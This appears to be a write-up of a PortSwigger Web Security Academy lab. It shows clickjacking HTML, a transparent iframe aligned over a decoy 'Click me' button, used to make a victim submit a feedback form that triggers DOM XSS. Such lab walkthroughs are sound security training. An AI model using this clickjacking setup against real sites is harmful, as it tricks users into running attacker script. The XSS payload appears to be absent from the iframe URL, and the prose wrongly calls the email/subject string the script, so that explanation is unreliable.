



# Lab description
Lab to perform a clickjacking attack that **triggers a DOM XSS attack.**
Obviously, the XSS vulnerability is triggered by clicking, therefore, the user clicks the button and a XSS attack is performed after clicking the button.

# Writeup
As always, we start from a base HTML that will contain an advanced iframe, in which the parameter name contains a XSS payload that will be preloaded in the page. The client, when clicking, will insert this payload in the page, creating a DOM XSS attack when clickjacking:

```css
<style>
  iframe {
    position: relative;
    width: $width_value;
    height: $height_value;
    opacity: $opacity;
    z-index: 2;
  }

  div {
    position: absolute;
    top: $top_value;
    left: $side_value;
    z-index: 1;
  }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/feedback?name=
	&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult">
</iframe>
```

We can see the `&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult">` script inside the name parameter. Let's visit the preloaded attack that will be behind, invisible:


Okay, let's modify the HTML code to match our dummy iframe with this invisible iframe:


When executing the attack, the DOM XSS occurs as the victim stores the XSS.  This is the final HTML used for the attack:

```css
<style>
	iframe {
		position:relative;
		width:700;
		height: 600;
		opacity: 0.1;
		z-index: 2;
	}
	div {
		position:absolute;
		top:525;
		left:80;
		z-index: 1;
	}
</style>
<div>Click me</div>
<iframe
src="https://0a1900760444d3aa82b73d2500d800a7.web-security-academy.net/feedback?name=&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

The DOM XSS is stored:

